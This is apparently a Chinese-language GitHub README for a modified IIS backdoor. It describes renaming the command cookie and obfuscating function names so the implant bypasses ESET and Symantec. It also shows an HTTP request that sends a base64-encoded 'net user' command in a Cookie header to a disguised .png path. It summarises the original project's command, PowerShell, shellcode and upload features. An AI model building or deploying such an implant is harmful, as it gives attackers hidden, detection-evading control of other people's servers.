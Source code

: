 参考WBGlIl大佬项目，删除powershell和shellcode功能，只保留cmd功能

Cookie: cmd= 改成 Cookie: set-cookie=，对函数名进行混淆

目前已绕过 eset 和 symantec 

```
GET /aspnet_client/system_web/iisstart.png HTTP/2
Host: 192.168.42.128
Cookie: set-cookie=bmV0IHVzZXI=
```
![飞书20230223-115221](https://user-images.githubusercontent.com/72059221/220817771-b66c981d-df1e-46ff-8a02-ec4a62f023c5.jpg)


---![飞书20230223-115225](https://user-images.githubusercontent.com/72059221/220817780-05b90dbb-fb4c-435f-92ea-a4fa5560cd82.jpg)



原项目地址：https://github.com/WBGlIl/IIS_backdoor。

主要是实现了3个功能执行cmd命令，C#调用powershell，执行shellcode

其实文件上传也写了就是IIS_backdoor_shell项目没有添加对应的选项

因为Cookie大小限制是4096所以不能传输很大的文件，你也可以自行修改项目不使用Cookie传输数据

其实还有很多可以改进的地方不过我懒的写了暂时就这样吧

代码写的比较渣大佬误喷
